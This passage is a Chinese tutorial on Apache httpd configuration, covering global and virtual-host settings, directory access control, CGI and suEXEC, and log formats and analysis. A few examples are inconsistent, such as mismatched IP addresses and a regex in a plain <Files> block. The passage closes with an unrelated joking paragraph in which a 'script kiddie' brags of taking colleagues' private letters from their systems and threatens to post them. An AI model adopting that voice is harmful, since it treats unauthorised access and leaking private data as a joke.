# SSL_BASE=../openssl-0.9.4 EAPI_MM=../mm-1.0.11 ./configure --enable-module=ssl --prefix=/usr/local/httpd --activate-module=src/modules/php4/libphp4.a
# make install
# cd ..
```

## Apache 的配置文件

对于 RedHat Linux 系统，Apache 的配置文件放在 `/etc/httpd/conf/` 目录下，如果是自行编译安装的 Apache，则视编译时指定的目录路径而定，缺省是 `/usr/local/apache/conf`。

在 conf 目录下有 3 个 Apache 的配置文件：`httpd.conf`、`access.conf` 和 `srm.conf`。Apache 启动时先调用 `httpd.conf`，然后调用 `srm.conf`，最后调用 `access.conf`。但现代版本的 Apache 为避免管理和维护的混乱，已经改将所有 Apache 的相关配置命令放在 `httpd.conf` 文件，不再使用 `srm.conf` 和 `access.conf` 文件。

`httpd.conf` 文件内容分为 3 部分：
1. Global Environment
2. Main server configuration
3. Virtual Hosts

### 1. Global Environment

- **ServerType standalone**：用来指定 Apache 的启动方式。Standalone 模式是 Apache 独立运行，也是默认方式。Inetd 模式是守护进程监听请求才启动，负担较重。
- **ServerRoot "/etc/httpd"**：Apache 的根目录，此处是存放配置、出错记录、日志文件的根目录。
- **LockFile /var/lock/httpd.lock**：保留默认值，不要更改。
- **PidFile /var/run/httpd.pid**：指定记录 Apache 父进程 ID 的文件名及路径。
- **ScoreBoard /var/run/httpd.scoreboard**：指定用于储存服务器进程处理信息的文件。
- **ResourceConfig conf/srm.conf 和 AccessConfig conf/access.conf**：现代版本已摒弃，通常用 # 注释掉。
- **Timeout 300**：设定超时时间（秒）。
- **KeepAlive On**：设定客户端每个连接是否允许有多个请求。
- **MaxKeepAliveRequests 100**：设定每次连接期间允许的最大请求数目，0 为无限制。
- **KeepAliveTimeout 15**：设定等待同一个连接发出下一个请求的超时时间。
- **MinSpareServers 5 和 MaxSpareServers 20**：设定最少和最大闲置服务进程数目。
- **StartServers 8**：设定启动时初始化的服务进程数目。
- **MaxClients 150**：设定服务运行的总数量，达到此数目后新请求将被拒绝。
- **MaxRequestsPerChild 100**：设定每个子进程处理多少个请求后自动结束，0 表示不限制。
- **Listen 80**：设定 Apache 监听的端口或 IP 地址，缺省是 80。
- **BindAddress ***：用来告知服务器接听哪个 IP 地址。
- **LoadModule**：DSO (Dynamic Shared Object) 支持，类似于 Windows 的 DLL 文件。
- **ExtendedStatus On**：查看服务器状态信息，缺省是 Off。

### 2. Main Server Configuration

- **Port 80**：设定服务器监听的连接端口（必须由 root 身份更改）。
- **User apache 和 Group apache**：指定运行 httpd 的用户和用户组。
- **ServerAdmin root@localhost**：设定管理员的电子邮件地址。
- **ServerName localhost**：设定主机名称，可以用域名或 IP。
- **DocumentRoot "/var/www/html"**：设定网页的存放目录路径。

```apache
<Directory />
    Options FollowSymLinks
    AllowOverride None
</Directory>
```
设定 Apache 访问目录时的执行动作。

```apache
<Directory "/var/www/html">
    Options Indexes Include FollowSymLinks
    AllowOverride None
    Order allow,deny
    Allow from all
</Directory>
```

为了安全，可以加入以下代码防止用户通过 `.htaccess` 改变全局参数：
```apache
<Directory />
    AllowOverride None
    Options None
    Allow from all
</Directory>
```

- **UserDir public_html**：设定用户个人网页目录（如 `/home/*/public_html/`）。
- **DirectoryIndex index.html index.htm index.php**：设定默认首页文档。
- **AccessFileName .htaccess**：指定控制存取的文件名称。

防止客户端访问 `.ht` 开头的文件（如 `.htaccess` 和 `.htpasswd`）：
```apache
<Files "^\.ht">
    Order allow,deny
    Deny from all
</Files>
```

- **UseCanonicalName On**：设定是否使用标准名称。
- **TypeConfig /etc/mime.types**：指定 MIME 类型文件。
- **DefaultType text/plain**：无法识别文件类型时的默认显示格式。
- **HostnameLookups off**：设定是否解析客户端 IP 对应的域名，为提高速度建议设为 off。
- **ErrorLog /var/log/httpd/error_log**：指定错误日志位置。
- **LogLevel warn**：指定记录等级（debug, info, notice, warn, error, crit, alert, emerg）。

定义日志格式别名：
```apache
LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %b" common
LogFormat "%{Referer}i->%U" referer
LogFormat "%{User-agent}i" agent
```

- **CustomLog /var/log/httpd/access_log common**：指定访问日志位置及格式。

CustomLog /var/log/httpd/access_log combined

指定记录文件使用哪个自定义的格式。其他不使用的自定义格式注释掉。

以上是关于日志文件的，将在后面的 Apache 日志文件中详细叙述。

ServerSignature On：设为 On 时，当 Apache 产生错误时，就在网页上显示 Apache 的版本信息、主机名称、端口等一行信息；设为 Off 时，就不显示相关的信息；设为 E-mail 时，就有 mailto: 给管理员的超链接。

Alias /icons/ "/var/www/icons/"：使用较短的别名，其格式为：Alias 别名 原名。可以无限制地建立别名。注意别名的后面如果有 /，那么在使用 URL 时也得有 /。

ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"：和 Alias 类似，设定服务器脚本目录。

应该强制性地使用 ScriptAlias 指令来限定 CGI 程序位于某个或者几个特定的位置。一般可以设置多个 ScriptAlias。必须保证 cgi-bin 目录不在 html 目录下，这一点非常重要，可以防止黑客只需要浏览它们就可以查看这些 CGI 程序。

IndexOptions FancyIndexing：以特定的图形显示文件清单，需以下文件配合。

```apache
AddIconByEncoding (CMP, /icons/compressed.gif) x-compress x-gzip
...
DefaultIcon /icons/unknown.gif
```

指定显示文件清单时各种文件类型的对应图形。

## 3. Virtual Hosts

这部分是设定虚拟主机的。所谓虚拟主机，就是指一台服务器作为多域名的 Web 服务器。ISP 经常通过一台服务器为它的客户提供 Web 服务。而客户希望主页以自己的名字出现，而不是在该 ISP 的名字后面，因为使用单独的域名和根网址可以看起来更正式一些。传统上，用户必须自己设立一台服务器才能达到单独域名的目的，然而这需要维护一个单独的服务器，很多小单位缺乏足够的维护能力。

更为合适的方式是租用别人维护的服务器。ISP 也没有必要为一个机构提供一个单独的服务器，完全可以使用虚拟主机能力，使服务器为多个域名提供 Web 服务，而且不同的服务互不干扰，对外就表现为多个不同的服务器。虚拟主机就是解决这种问题的方案，使客户的域名实际指向 ISP 的同一台服务器。

Apache 有两种支持虚拟主机的方式：一是为每一个虚拟主机设置单独的 httpd 进程，二是为所有的主机设置一个单独的 httpd 进程。

### (1) 为每一个虚拟机设置单独的 httpd 进程

在 httpd.conf 文件的第一部分 Global Environment 中的 BindAddress 指令或 Listen 指令来指定虚拟主机的地址和端口。

BindAddress 指令用来指定单一的地址，可以使用域名或 IP 地址。该指令在 httpd.conf 文件中只能出现一次。

Listen 指令可以让 httpd 进程监听多个地址或端口，反复使用 Listen 指令就能实现这个要求。

### (2) 为所有的主机设置一个单独的 httpd 进程

这是一个常用的方法。用户只要维护一个 httpd.conf 文件。在此文件的第 3 部分 Virtual Host 中，用 `<VirtualHost></VirtualHost>` 指令来为所有的虚拟主机进行配置。有多个虚拟主机就有多个 `<VirtualHost>` 段。在不同的虚拟主机的 `<VirtualHost>` 段中可以指定不同的 ServerAdmin、ServerName、DocumentRoot、ErrorLog、TransferLog。

虚拟主机有 3 种实现方式：以主机名称的方式虚拟、以 IP 的方式虚拟、以端口的方式虚拟。下面就举例说明在 httpd.conf 的第 3 部分 Virtual Host 来实现上面提及的方式。

#### 1) 以主机名称的方式虚拟

如果用户的一台服务器有多个域名，举例如下：

```apache
NameVirtualHost 210.12.195.6

<VirtualHost hacker.com.cn>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
    ServerName hacker.com.cn
</VirtualHost>

<VirtualHost pcfriend.com.cn>
    ServerAdmin admin@pcfriend.com.cn
    DocumentRoot /var/www/html/pcfriend
    ServerName pcfriend.com.cn
</VirtualHost>
```

#### 2) 以 IP 的方式虚拟

注册域名是要花一笔费用的。可以用 IP 来虚拟，在 Linux 中可以为一个网卡捆绑两个 IP 地址。举例如下：

服务器的地址是 210.12.195.6，现在有一个 IP 地址 210.12.195.9 没有使用，现在将 210.12.195.9 捆绑到服务器的网卡中，执行命令：

```bash
# ifconfig eth0:0 210.12.195.9
```

这样，服务器就有两个 IP 地址了。以 IP 的方式虚拟和以主机的名称的方式虚拟类似，看下面的例子：

```apache
<VirtualHost 210.12.192.6>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>

<VirtualHost 210.12.192.9>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/pcfriend
</VirtualHost>
```

以 IP 的方式虚拟不用 NameVirtualHost 指令。

#### 3) 以主机名称和 IP 的方式虚拟

就是上面的两个方式的结合。看下面的例子：

```apache
NameVirtualHost 210.12.195.6

<VirtualHost hacker.com.cn>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
    ServerName hacker.com.cn
</VirtualHost>

<VirtualHost 210.12.195.6>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/pcfriend
</VirtualHost>
```

#### 4) 以端口的方式虚拟

http 默认的端口是 80，如果用户要开设另一个端口 443 作为另一个虚拟主机，例子如下：

```apache
Listen 80
Listen 443

<VirtualHost 210.12.192.6:80>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>

<VirtualHost 210.12.195.6:443>
    ServerAdmin suying@hacker.com.cn
    DocumentRoot /var/www/html/pcfriend
</VirtualHost>
```

#### 5) 以不同的 IP 和端口的方式来虚拟

该方式是以 IP 的方式虚拟和以端口的方式虚拟的结合。假设服务器捆绑了两个 IP 地址，210.12.192.6 和 210.12.195.9，后面用端口 443。例子如下：

```apache
Listen 210.12.192.6:80
Listen 210.12.195.9:443

<VirtualHost 210.12.192.6:80>
    ServerAdmin bright@hacker.com.cn
    DocumentRoot /var/www/html/hacker
</VirtualHost>

<VirtualHost 210.12.195.9:443>
    ServerAdmin suying@hacker.com.cn
    DocumentRoot /var/www/html/pcfriend
</VirtualHost>
```

## Apache 设置目录级访问控制

缺省情况下，Apache 可以访问其权限允许的所有目录。虽然 Apache 必须以唯一的 UID 和 GID 运行，最好不允许它可以访问任何具有 world-read 权限（004）的文件，可以禁止 Apache 访问由修正控制系统（源代码控制软件）所使用的 RCS 目录。在 httpd.conf 中，典型的指令如下：

```apache
<Directory />
    Order deny,allow
    Deny from all
</Directory>

<Directory /home/*/public_html/RCS>
    Order deny,allow
    Deny from all
</Directory>

<Directory /home/*/public_html>
    Order deny,allow
    Allow from all
</Directory>

<Directory /httpd/html/RCS>
    Order deny,allow
    Deny from all
</Directory>

<Directory /httpd/html>
    Order deny,allow
    Allow from all
</Directory>
```

`<Directory>` 总是和 `</Directory>` 成对使用，在它们之间的部分就是对指定目录的访问设置。目录名中可以使用正则表达式来同时匹配多个目录，但必须在表达式前附加一个字符“~”。如 `<Directory "~ /www/.*[0-9]{3}">`，表示匹配在 /www 目录下所有以 3 个数字组成的子目录。不过，如果直接使用通配符就无须加此符号“~”。

除了在 httpd.conf 文件中指定 Apache 的用户 User 和用户组 Group，然后给指定的文件目录指派相应的权限给 Apache 外，还可以通过 `<Directory>` 指令来控制目录的访问权限和访问方式。

在 `<Directory>` 指令中，有如下命令：Options、AllowOverride、Order、Allow、Deny。

### 1. Options

用来指定在该目录及子目录下的文件可以采取的操作。可用参数有：Indexes、Includes、FollowSymLinks、ExecCGI、MultiViews、None、All。

Indexes 参数使得 Apache 在没有找到缺省的索引文件时自动生成索引列表。就是说，如果在 httpd.conf 文件中用 DirectoryIndex 指定了索引文件 index.html，如果不存在该文件，就自动生成该目录的文件列表作为索引文件。如果没有指定此参数，也没有指定 DirectoryIndex 并且不存在缺省的索引文件，Apache 就返回禁止访问的页面。

FollowSymLinks 参数允许 httpd 按符号连接访问。

Includes 参数使用服务器端包含 SSI。需要和 AddHandler 命令配合使用。有关 SSI 将在后面的章节讲述。

ExecCGI 参数指定该目录可以运行 CGI 程序。也需要 AddHandler 命令配合使用。MultiViews 参数使 Apache 根据特定条件来自动选择并返回一个合适的文件。该参数一般很少用到。

None 参数表明不使用上面的任何参数。All 参数表明使用上面除了 MultiViews 参数以外所有参数的组合。

### 2. AllowOverride

除了在 httpd.conf 中指定目录的访问权限外，也可以通过在目录下存放一个文件来控制目录的权限，该文件名由 httpd.conf 的 AccessFileName 指令指定，一般是 .htaccess 这个文件名。AllowOverride 命令有 6 个参数：None、All、Options、FileInfo、AuthConfig、Limit。

### 3. Order、Allow、Deny

这 3 个指令需要配合使用来控制目录的访问权限。Order 指定检查规则的秩序。Order Allow,Deny 表示先按 Allow 规则检查，再按 Deny 规则检查，如果 Allow 规则满足就不再检查 Deny 规则。Order Deny,Allow 表示先按 Deny 规则检查，如果不满足 Deny 规则，就按 Allow 规则检查。

Apache 还有 `<File></File>` 指令，命令配置和 `<Directory>` 大体一致。

## 在 Apache 上运行 CGI

CGI 是 Common Gateway Interface 的缩写，翻译过来是通用网关接口。它使 Web 服务器具备了与客户端交互的能力。CGI 提供了一个统一的标准，让程序在 Web 服务器上运行，接受来自浏览器发来的数据，进行处理后返回结果。CGI 程序可以用各种编程语言或者脚本语言来编写，C、C++、Delphi、Perl 等等都可以用来编写 CGI 程序。编译型语言的优点是运行速度快，脚本型语言的优点是便于修改、移植和调试。

CGI 最大的缺点在于安全性。一个编写很糟糕的 CGI 容易成为黑客入侵、攻击系统的最直接的途径。每次执行 CGI 程序服务器都会产生一个进程，直至执行完毕后才被撤销，如果在处理大量的请求时，这样的工作方式是很低效的。

常用的 CGI 文件后缀名是 .cgi 和 .pl。要将 CGI 文件的权限更改为 755，即可执行权限。否则，在请求运行该程序时服务器会返回“禁止访问”的错误。更改权限执行命令：`# chmod 755 login.cgi`。

为有效控制 CGI 的存取，建议不要使用 ScriptAlias 的方式，在 httpd.conf 中将下面一行注释掉：`# ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"`。这种方式使所有位于 `/var/www/cgi-bin/` 下的所有文件视为 CGI 程序，如果程序编写不完善，一旦被黑客利用就会带来意想不到的后果。建议用下面的方式：

在 httpd.conf 文件中，加入：`AddHandler cgi-script .cgi`，该命令用来说明特定后缀的文件为 CGI 程序。然后加上一行：`Alias /cgi-bin/ "/var/www/cgi-bin/"`，将此行下面的代码：

```apache
<Directory "/var/www/cgi-bin">
    AllowOverride None
    Options None
    Order allow,deny
    Allow from all
</Directory>

修改为：

<Directory "/var/www/cgi-bin/">
    AllowOverride None
    Options ExecCGI
    Order allow,deny
    Allow from all
</Directory>
```

这样，Apache 可以让这个目录执行 CGI，并且因为已经用 Alias 指令简化 CGI 的目录路径，浏览器在 URL 请求 `http://www.hacker.com.cn/cgi-bin/login.cgi` 的时候，Apache 会处理该请求并返回结果，而不是把 CGI 文件以文本形式返回给浏览器。

CGI 脚本和程序是系统中唯一的一类和连接到 TCP/IP 80 端口的任何用户交互的程序。所以，没有经过安全分析的 CGI 容易被黑客利用而带来潜在的风险，编写或采用现有的 CGI 程序要注意 CGI 程序中可能存在的安全漏洞，特别是对用户输入的问题。最好让所有的 CGI 程序在一个独立的系统上运行。

Apache 本身集成了 suEXEC 功能。该功能可以使 CGI 程序以拥有该程序的用户身份运行，而不是 Apache 运行时所使用的用户身份。缺省情况下，该功能没有启用。suEXEC 只能由 Apache 调用，且它所在的目录应由 httpd.conf 指定的用户有执行权限，suEXEC 程序调用 set-UID 将用户身份设为 root 并进行一定的安全性检查。请求 suEXEC 调用的程序不能指定绝对路径，也不能包含 `/../`，否则 suEXEC 将会拒绝调用这个程序。suEXEC 不能被系统帐户调用，并且如果存放 CGI 程序的目录除了拥有 suEXEC 程序将调用的 CGI 程序的用户外，还有其他用户有写权限，那么该目录下不能运行 suEXEC 程序。

## Apache 日志文件

Apache 日志文件记录了服务器对每次请求做出响应的有关信息。通过分析日志文件，可以提供重要的统计数据，如访问量最大或访问最频繁的 Web 页；也可以查看服务器的错误记录，从而获得和安全问题相关的信息。用户需要高度重视日志文件，要经常查看，尤其是错误信息日志文件，以便能尽快发现已经发生的问题或可能存在的问题。

很多时候，除非用户注意到 Apache 有些异常，否则日志文件中不寻常的项目最先指示出有人入侵了系统。黑客也知道这一点，任何高明的黑客会用 vi 之类的工具编辑遭受入侵的系统的日志文件，抹去痕迹。Apache 缺省保留两个日志文件：访问日志和错误日志。

### 1. 访问日志

RedHat 访问日志文件缺省是 `/var/log/httpd/access_log`。这是 Apache 标准的日志文件。访问日志的作用是，记录所有对 Apache 服务器的访问活动，用户可以借此查阅哪些人什么时间什么地点浏览了网站的哪些内容。下面是访问日志中一个典型的记录：

`210.12.195.6 - - [10/Aug/2002:14:47:37 -0400] "GET / HTTP/1.0" 200 2215`

这行内容由 7 项构成，上面的例子中有两项空白，但整行内容仍旧分成了 7 项。

- **①** 是远程主机的地址，即它表明访问网站的究竟是谁。在上面的例子中，访问网站的主机是 `210.12.195.6`。可以通过 nslookup 之类的工具来查找 DNS。可以看出，仅仅从日志记录的第一项出发，我们就可以得到有关访问者的不少信息。

  默认情况下，① 只是远程主机的 IP 地址，但可以要求 Apache 查出所有的主机名字，并在日志文件中用主机名字来替代 IP 地址。然而，这种做法通常不值得推荐，因为它将极大地影响服务器记录日志的速度，从而也就减低了整个网站的效率。另外，有许多工具能够将日志文件中的 IP 地址转换成主机名字，因此要求 Apache 记录主机名字替代 IP 地址是得不偿失的。然而，如果确实有必要让 Apache 找出远程主机的名字，用户可以在 `httpd.conf` 文件中加入如下指令：`HostNameLookups on`。

  如果 `HostNameLookups` 设置成 `double` 而不是 `on`，日志记录程序将对它找到的主机名字进行反向查找，验证该主机名字确实指向了原来出现的 IP 地址。默认情况下，`HostNameLookups` 设置为 `off`。

- **②** 是空白，用一个 `-` 占位符替代。实际上绝大多数时候这一项都是如此。这个位置用于记录浏览者的标识，这不只是浏览者的登录名字，而是浏览者的 E-mail 地址或者其他唯一标识符。这个信息由 identd 返回，或者直接由浏览器返回。很早的时候，那时 Netscape 0.9 还占据着统治地位，这个位置往往记录着浏览者的 E-mail 地址。然而，由于有人用它来收集邮件地址和发送垃圾邮件，所以它未能保留多久，很久之前市场上几乎所有的浏览器就取消了这项功能。因此，现在在日志记录的第二项看到 E-mail 地址的机会已经微乎其微了。

- **③** 也是空白。这个位置用于记录浏览者进行身份验证时提供的名字。当然，如果网站的某些内容要求用户进行身份验证，那么这项信息是不会空白的。但是，对于大多数网站来说，日志文件的大多数记录中这一项仍旧是空白的。

- **④** 日志记录的第四项是请求的时间。这个信息用方括号“[]”包围，而且采用所谓的“公共日志格式”或“标准英文格式”。因此，上例日志记录表示请求的时间是 2002 年 8 月 10 日星期六 14:47:37。时间信息最后的 `-0400` 表示服务器所处时区位于 UTC 之前的 4 小时。

- **⑤** 日志记录的第五项或许是整个日志记录中最有用的信息，它记录了服务器收到的是一个什么样的请求。该项信息的典型格式是 `METHOD RESOURCE PROTOCOL`，即“方法 资源 协议”。

  在上例中，`METHOD` 是 `GET`，其他经常可能出现的 `METHOD` 还有 `POST` 和 `HEAD`。此外，还有不少可能出现的合法 `METHOD`，但主要就是这 3 种。

  `RESOURCE` 是指浏览者向服务器请求的文档或 URL。在这个例子中，浏览者请求的是 `/`，即网站的主页或根。大多数情况下，`/` 指向 `DocumentRoot` 目录的 `index.html` 文档，但根据服务器配置的不同它也可能指向其他文件。

  `PROTOCOL` 通常是 `HTTP`，后面再加上版本号。版本号或者是 `1.0`，或者是 `1.1`，但出现 `1.0` 的时候比较多。HTTP 协议是 Web 得以工作的基础，`HTTP/1.0` 是 HTTP 协议的早期版本，而 `1.1` 是最近的版本。当前大多数 Web 客户程序仍使用 `1.0` 版本的 HTTP 协议。

日志记录的⑥是状态代码。记录了请求是否成功，或者遇到了什么样的错误。大多数时候，这项值是 200，它表示服务器已经成功地响应浏览器的请求，一切正常。此处不准备给出状态代码的完整清单以及解释它们的含义，请参考相关资料了解这方面的信息。但一般地说，以 2 开头的状态代码表示成功，以 3 开头的状态代码表示由于各种不同的原因用户请求被重定向到了其他位置，以 4 开头的状态代码表示客户端存在某种错误，以 5 开头的状态代码表示服务器遇到了某个错误。

日志记录的⑦表示发送给客户端的总字节数，它告诉用户传输是否被打断（即该数值是否和文件的大小相同）。把日志记录中的这些值加起来就可以得知服务器在一天、一周或者一月内发送了多少数据。

注意，由于日志文件是由 Apache 用户打开的（在 httpd.conf 用 User 指令指定），因此必须注意这个文件要有安全保证，防止该文件被随意改写。

## 2. 错误日志

RedHat 错误日志文件缺省是 `/var/log/httpd/error_log`。错误日志无论在格式还是在内容上都和访问日志不同。然而，错误日志和访问日志一样也提供丰富的信息，可以利用这些信息分析服务器的运行情况，哪里出现了问题。错误日志记录了 Apache 服务器运行期间遇到的各种错误，以及一些普通的诊断信息，比如 Apache 服务器何时启动、何时关闭等。

我们可以在 httpd.conf 文件中设置日志文件记录信息级别的高低，以控制日志文件记录信息的数量和类型。通过 LogLevel 指令设置，该指令默认设置的级别是 error，即记录称得上错误的事件。

大多数情况下，在日志文件中见到的内容分属两类：文档错误和 CGI 错误。但是，错误日志中偶尔也会出现配置错误，另外还有前面提到的服务器启动和关闭信息。

文档错误和服务器返回的 400 系列代码相对应，最常见的就是 404 错误——Document Not Found（文档没找到）。除了 404 错误以外，用户身份验证错误也是一种常见的错误。404 错误在用户请求的资源（即 URL）不存在时出现，它可能是由于用户输入的 URL 错误，或者由于 Apache 服务器上原来存在的文档因故被删除或移动。

当用户不能打开服务器上的文档时，错误日志中出现的记录如下所示：

```text
[Sat Aug 10 9:09:18 2002] [error] [61.181.52.23] File does not exist: /var/www/html/j
```

可以看到，正如访问日志 access_log 文件一样，错误日志记录也分成多个项。

错误记录的开头是日期／时间标记，注意它们的格式和 access_log 中日期／时间的格式不同。access_log 中的格式被称为“标准英文格式”。

错误记录的第二项是当前记录的级别，它表明了问题的严重程度。这个级别信息可能是 LogLevel 指令的文档中所列出的任一级别，error 级别处于 warn 级别和 crit 级别之间。404 属于 error 错误级别，这个级别表示确实遇到了问题，但服务器还可以运行。

错误记录的第三项表示用户发出请求时所用的 IP 地址。

记录的最后一项才是真正的错误信息。对于 404 错误，它还给出了完整路径指示服务器试图访问的文件。当用户料想某个文件应该在目标位置却出现了 404 错误时，这个信息是非常有用的。此时产生这种错误的原因往往是由于服务器配置错误、文件实际所处的虚拟主机和用户料想的不同，或者其他一些意料不到的情况。

由于用户身份验证问题而出现的错误记录如下所示：

```text
[Sat Aug 1 22:13:21 2002] [error] [client 61.181.52.23] user bright@hacker.com.cn: authentication failure for "/cgi-bin/hirecareers/company.cgi": password mismatch
```

注意：由于文档错误是用户请求的直接结果，因此它们在访问日志中也会有相应的记录。错误日志最主要的用途或许是诊断行为异常的 CGI 程序。为了进一步分析和处理方便，CGI 程序输出到 STDERR（Standard Error，标准错误设备）的所有内容都将直接进入错误日志。这意味着任何编写良好的 CGI 程序，如果出了问题，错误日志就记录有关问题的详细信息。然而，把 CGI 程序错误输出到错误日志也有它的缺点，错误日志中将出现许多没有标准格式的内容，这使得用错误日志自动分析程序从中分析出有用的信息变得相当困难。

由于 CGI 程序运行环境的特殊性，如果没有错误日志的帮助，大多数 CGI 程序的错误都将很难解决。有不少人在邮件列表或者新闻组中抱怨说自己有一个 CGI 程序，当打开网页时服务器却返回错误，比如“Internal Server Error”。可以肯定，这些人没有看过服务器的错误日志，或者根本不知道错误日志的存在。绝大多数情况下，错误日志能够精确地指出 CGI 错误的所在以及如何修正这个错误。

## 3. 定制日志

用户可以使用日志格式指令来控制日志文件的信息。在前面的 5.5.1.2 节已经提到，在 httpd.conf 中使用 `LogFormat "%a %l"` 指令，可以把发出 HTTP 请求浏览器的 IP 地址和主机名记录到日志文件。出于安全的考虑，你至少应该验证那些失败的 Web 用户，在 httpd.conf 文件中加入 `LogFormat "%401u"` 指令可以实现这个目的。这个指令还有其他的许多参数，用户可以参考 Apache 的文档。另外，Apache 的错误日志文件对于系统管理员来说也是非常重要的，错误日志文件中包括服务器的启动、停止以及 CGI 执行失败等信息。

Apache 在 httpd.conf 中默认设置为：

```text
LogFormat "%h %l %u %t \"%r\" %>s %b" common
```

该指令创建了一种名为“common”的日志格式，日志的格式在双引号包围的内容中指定。格式字符串中的每一个变量代表着一项特定的信息，这些信息按照格式串规定的次序写入到日志文件。

格式串的可用的变量及含义：

- `%...a`：远程 IP 地址。
- `%...A`：本地 IP 地址。
- `%...B`：已发送的字节数，不包含 HTTP 头。
- `%...b`：CLF 格式的已发送字节数量，不包含 HTTP 头。例如当没有发送数据时，写入一个 `-` 而不是 `0`。
- `%...{FOOBAR}e`：环境变量 `FOOBAR` 的内容。
- `%...f`：文件名字。
- `%...h`：远程主机。
- `%...H`：请求的协议。
- `%...{Foobar}i`：`Foobar` 的内容，发送给服务器的请求的标头行。
- `%...l`：远程登录名字（来自 identd，如果提供的话）。
- `%...m`：请求的方法。
- `%...{Foobar}n`：来自另外一个模块的注解 `Foobar` 的内容。
- `%...{Foobar}o`：`Foobar` 的内容，应答的标头行。
- `%...p`：服务器响应请求时使用的端口。
- `%...P`：响应请求的子进程 ID。
- `%...q`：查询字符串（如果存在查询字符串，则包含 `?` 后面的部分；否则，它是一个空字符串）。
- `%...r`：请求的第一行。
- `%...s`：状态。对于进行内部重定向的请求，这是指“原来”请求的状态。如果用 `%...>s`，则是指后来的请求。
- `%...t`：以公共日志时间格式表示的时间（或称为标准英文格式）。
- `%...{format}t`：以指定格式 `format` 表示的时间。
- `%...T`：为响应请求而耗费的时间，以秒计。
- `%...u`：远程用户（来自 auth；如果返回状态（`%s`）是 `401`，则可能是伪造的）。
- `%...U`：用户所请求的 URL 路径。
- `%...v`：响应请求的服务器的 `ServerName`。
- `%...V`：依照 `UseCanonicalName` 设置得到的服务器名字。

在所有上面列出的变量中，“...” 表示一个可选的条件。如果没有指定条件，则变量的值将以 “-” 取代。分析前面来自默认 `httpd.conf` 文件的 `LogFormat` 指令示例，可以看出它创建了一种名为“common”的日志格式，其中包括：远程主机、远程登录名字、远程用户、请求时间、请求的第一行代码、请求状态，以及发送的字节数。

有时候用户只想在日志中记录某些特定的、已定义的信息，这时就要用到“...”，如果在“%”和变量之间放入了一个或者多个 HTTP 状态代码，则只有当请求返回的状态代码属于指定的状态代码之一时，变量所代表的内容才会被记录。例如，如果用户想要记录的是网站的所有无效链接，那么可以使用：`LogFormat %404{Referer}i BrokenLinks;` 反之，如果我们想要记录那些状态代码不等于指定值的请求，只需加入一个“!”符号即可。

无效链接：当然，日志文件还能显示哪些东西不能按照用户所想像的运行。网站中是否存在错误的链接？其他网站链接过来时有没有搞错 URL？是否存在不能正常运行的 CGI 程序？是否有搜索引擎检索程序每秒发出数千个请求，从而影响了本网站的正常服务？这些问题的答案都可以从日志文件找到线索。

## 日志分析

尽管日志文件中包含着大量有用的信息，但这些信息只有在经过深入挖掘之后才能够最大限度地发挥作用。

现在面临的问题是，虽然日志文件中包含了大量的信息，但这些信息对于管理、规划网站却没有多少直接的帮助。为了管理和规划网站，需要知道：有多少人浏览了网站，他们在看些什么，停留了多长时间，他们从哪里得知这个网站，等等。所有这些信息就隐藏于（或者可能隐藏于）日志文件之中。有许多信息可以用日志文件来记录，其中包括：

- **远程主机的地址**：“远程主机的地址”和“谁在浏览网站”差不多，但并不等同。具体地说，远程主机的地址告诉我们浏览者来自何方，比如它可能是 bright.hacker.com.cn 或者 suying.pcfriend.com.cn。
- **浏览时间**：浏览者何时开始访问网站？从这个问题的答案中能够了解不少情况。如果网站的大多数浏览者都在早上 9:00 和下午 4:00 之间访问网站，那么可以相信网站的浏览者大多数总是在工作时间进行访问；如果访问记录大多出现在下午 7:00 到午夜之间，可以肯定浏览者一般在家里上网。当然，从单个访问记录能够得到的信息非常有限，但如果从数千个访问记录出发，就可以得到非常有用和重要的统计信息。
- **用户所访问的资源**：网站的哪些部分最受用户欢迎？这些最受欢迎的部分就是应该继续加以发展的部分。网站的哪些部分总是受到冷落？网站中这些受到冷落的部分或许隐藏得太深，或许它们确实没有什么意思，此时就得想想办法加以改进。当然，网站还有的内容，比如法律上的声明，虽然很少有人访问，但却不应该随便地改动它们。

## 总结

总而言之，Apache 是一个非常优秀的 Web 服务器，虽然 Apache 的开发者非常注重其安全性，但是由于 Apache 非常庞大，难免会存在安全隐患。Apache 的安装维护中需要注意以下问题：

- 检查文件和目录的权限是否恰当。
- httpd.conf、srm.conf 和 access.conf 的设置是否适当。
- 使服务器日志文件能够记录尽可能详细的信息。
- 对某些需要特别保护的目录使用密码保护（.htaccess）。
- 对 CGI 脚本或者程序进行封装。
- 如果 CGI 使用 Perl 编写，要详细检查其安全性。
- 检查 SSI 指令。
- 使用 TCP Wrappers 和 Tripwire。

Web 服务是 Internet 服务器最基本的服务，Linux 发行版中包含的 Apache 软件是性能优良的 Web 服务器，也是 Internet 上最流行的 Web 服务器，由于它时刻都经历着无数使用者的测试，所以现行的 Apache 的默认选项已经是十分适合普通用户，用户只需要更改其中几个与当前应用环境紧密相关的选项就可以达到目的了。

希望大家在近几轮的实验室中玩得愉快！多多拿奖：）！

脚本小子：我，就是传说中神勇无敌的脚本小子！（鸡蛋满天飞！）……干嘛砸我啊！说什么我也是精通脚本漏洞、系统漏洞的“人才”嘛！（泪流满面“阴险”地站起来……），不过，与刘大哥相比我还是差那么一点点的（wtf：嘿嘿，平时搜刮遍了，还是有人治你嘛！给我老实点）……唉，读者朋友们看到我的悲惨遭遇了吧？他们都欺负我啊！不过，悄悄地告诉大家：他们系统内的情书什么的我可是全弄到了哦！哪天他们不请我吃饭的时候，嘿嘿，我就发到论坛上！呵呵，值得关注哦！

